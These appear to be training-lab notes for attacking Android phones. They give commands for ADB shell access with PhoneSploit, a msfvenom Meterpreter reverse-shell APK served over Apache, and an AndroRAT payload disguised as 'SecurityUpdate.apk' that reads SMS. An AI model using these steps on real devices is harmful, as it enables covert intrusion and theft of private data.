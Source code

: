 # Exploit the Android Platform through ADB using PhoneSploit

    [Linux]
    sudo su
    cd PhoneSploit
    python3 -m pip install colorama
    python3 phonesploit.py
    3  	-> Connect a new phone
    Enter a phones ip address: [andoirdIP]
    connection time out error :  Type 3 continue until u get Phone Ip address option
    Connected at port 5555

	(main_menu)> 4  	-> Access Shell on a phone
	Device name: [AndroidIP]
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	[AndoridIP]
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	[AndoridIP]
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered

# Hack an Android Device,Creating Binary Payloads

    [Linux]
    sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[PIP] -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST [PIP]
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://[PIP]/share
	download and run Backdoor.apk
	
	[Linux]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps

# Hack an Android Device,Creating APK File - AndroRAT

    [linux]
    sudo su 
    cd AndroidRat
    python3 androidRAT.py --build -i [PIP] -p 4444 -o SecurityUpdate.apk
        --build: is used for building the APK
        -i: specifies the local IP address
    cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
    service apache2 start
    python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
        --shell: is used for getting the interpreter
        -i: specifies the IP address for listening (here, 0.0.0.0)

	[Android]
	launch http://[PIP]/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
